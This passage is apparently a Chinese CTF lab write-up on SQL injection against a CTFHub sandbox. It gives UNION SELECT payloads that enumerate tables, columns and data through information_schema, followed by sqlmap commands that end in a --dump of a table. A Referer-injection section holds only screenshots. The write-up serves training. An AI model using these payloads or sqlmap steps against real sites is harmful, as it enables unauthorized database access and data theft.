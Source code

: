 **查询数据库的表名：**-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli'

![image-20220609213339807](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609213339807.png)

**查询wvzxmdldse的字段名（列名）：**-1 union select 1,group_concat(column_name) from information_schema.columns where table_schema='sqli' and table_name='wvzxmdldse'

![image-20220609213524503](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609213524503.png)

**查询字段信息：**-1 union select 1,group_concat(xglmorvoqs) from sqli.wvzxmdldse

![image-20220609213644250](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609213644250.png)

##### 方法二：sqlmap

```
python sqlmap.py -u "http://challenge-14cd98dd43f8801f.sandbox.ctfhub.com:10800/?id=1" --level 3 --dbs
```

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609234331986.png" alt="image-20220609234331986" style="zoom:80%;" />

```
python sqlmap.py -u"http://challenge-14cd98dd43f8801f.sandbox.ctfhub.com:10800/?id=1" --level 3 -D sqli --tables
```

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609234852569.png" alt="image-20220609234852569" style="zoom:80%;" />

```
python sqlmap.py -u"http://challenge-14cd98dd43f8801f.sandbox.ctfhub.com:10800/?id=1" --level 3 -D sqli -T oujeaeuenc --columns
```

![image-20220610001330115](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610001330115.png)

```
python sqlmap.py -u "http://challenge-14cd98dd43f8801f.sandbox.ctfhub.com:10800/?id=1" --level 3 -D sqli -T oujeaeuenc -C kdulqytdrv --dump
```

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610003128596.png" alt="image-20220610003128596" style="zoom:80%;" />

#### ***Refer注入

![image-20220610003721442](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610003721442.png)

![image-20220610004050816](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610004050816.png)

![image-20220610004142559](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610004142559.png)

![image-20220610004246002](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610004246002.png)
